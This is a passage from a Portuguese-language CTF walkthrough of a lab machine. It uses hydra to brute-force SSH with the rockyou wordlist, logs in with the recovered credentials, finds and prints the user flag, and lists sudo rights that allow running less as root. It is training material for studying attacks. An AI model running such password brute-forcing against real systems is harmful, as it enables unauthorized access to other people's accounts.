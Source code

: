 ```bash
┌──(root㉿kali)-[/home/kali/Downloads]
└─# hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://10.201.71.
```
Parâmetros principais:

- `-l jake` : usuário alvo.

- `-P /usr/share/wordlists/rockyou.txt` : wordlist de senhas (rockyou).

- `ssh://10.201.71.101` : alvo e protocolo.


**Resultado encontrado:**

```bash
[22][ssh] host: 10.201.71.101   login: jake   password: 987654321
```
Credenciais válidas: `jake:987654321`

### 4. Acesso e busca pela flag user.txt

Após login via SSH:

```bash
ssh jake@10.201.71.101
```

Procuramos a flag com find:

```bash
jake@brookly_nine_nine:~$ find / -type f -name user.txt 2>/dev/null
/home/holt/user.txt

jake@brookly_nine_nine:~$ cat /home/holt/user.txt
ee11cbb19052e40b07aac0ca060c23ee
```
**Explicação do comando** `find`:

`/` : começa a busca na raiz do sistema.

`-type f` : apenas arquivos (não diretórios).

`-name user.txt` : procura por arquivo com nome exato user.txt.

`2>/dev/null` : descarta mensagens de erro (permissões negadas, etc.).

**User Flag**: `ee11cbb19052e40b07aac0ca060c23ee`

### 5. Verificando sudo e leitura do root.txt

Listamos o que o usuário pode executar com `sudo`:

```bash
jake@brookly_nine_nine:/home/holt$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```
